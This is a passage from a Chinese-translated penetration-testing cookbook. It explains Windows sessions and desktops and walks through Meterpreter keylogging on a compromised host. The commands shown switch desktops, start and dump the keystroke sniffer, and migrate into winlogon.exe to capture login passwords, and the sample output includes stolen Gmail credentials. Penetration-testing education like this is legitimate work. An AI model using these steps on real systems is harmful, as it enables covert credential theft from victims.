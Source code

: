 Windows 桌面被划分为不同的**会话**，以定义我们与 Windows 机器交互的方式。会话 0 代表控制台。其他会话——会话 1、会话 2 等代表远程桌面会话。

因此，为了捕获我们侵入的系统的按键，我们必须在桌面会话 0 中工作：

![它是如何工作的...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_05_04.jpg)

每个 Windows 桌面会话包括不同的站。在前面的图中，您可以看到与 Session 0 相关的不同站。在这些站中，WinSta0 是唯一的交互式站。这意味着用户只能与 WinSta0 站互动。所有其他站都是非交互式的。现在 WinSta0 包括三个不同的桌面，即 Default、Disconnect 和 Winlogon。默认桌面与我们在桌面上执行的所有应用程序和任务相关联。`Disconnect`桌面与屏幕保护程序锁定桌面有关。Winlogon 桌面与 Windows 登录屏幕有关。

这里需要注意的一点是每个桌面都有自己的键盘缓冲区。因此，如果您必须从`Default`桌面中嗅探按键记录，您必须确保您当前的 meterpreter 活动浏览器设置为`Session 0/WinSta0/Default`。如果您必须嗅探登录密码，那么您将不得不将活动桌面更改为`Session 0/WinSta0/Winlogon`。让我们举个例子来让它更清楚。

让我们使用`getdesktop`命令检查我们当前的桌面：

```
meterpreter > getdesktop
Session 0\Service-0x0-3e7$\Default 
```

正如您所看到的，我们不在`WinSta0`站，这是唯一的交互式桌面站。因此，如果我们在这里运行按键捕获，它不会返回任何结果。让我们将我们的桌面更改为`WinSta0\Default`：

```
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

前面的命令行显示我们使用`setdesktop`命令切换到了交互式 Windows 桌面站。因此，现在我们已经准备好运行按键记录嗅探器来捕获用户在目标机器上按下的按键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
gmail.com <Return> daklord <Tab> 123123 
```

查看转储的按键记录，您可以清楚地识别出目标用户访问了[gmail.com](http://gmail.com)并输入了他的凭据进行登录。

如果您想嗅探 Windows 登录密码怎么办？显然，您可以使用`setdesktop`命令将您的活动桌面切换到`WinSta0\Winlogon`，但在这里我们也将讨论另一种方法。我们可以迁移到在 Windows 登录期间运行的进程。让我们执行`ps`命令来检查正在运行的进程。

您会发现`winlogon.exe`作为一个带有进程 ID 的进程在运行。让我们假设`winlogon.exe`的**进程 ID（PID）**为`1180`。现在让我们迁移到这个 PID 并再次检查我们的活动桌面：

```
meterpreter > migrate 1180
[*] Migrating to 1180...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon 
```

您可以看到我们的活动桌面已更改为`WinSta0\Winlogon`。现在我们可以运行`keyscan_start`命令来开始嗅探 Windows 登录屏幕上的按键记录。

同样，我们可以通过迁移到运行在默认桌面上的任何进程来返回到默认桌面。考虑使用 PID `884`的`explorer.exe`：

```
meterpreter > migrate 884
[*] Migrating to 884...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Default 
```
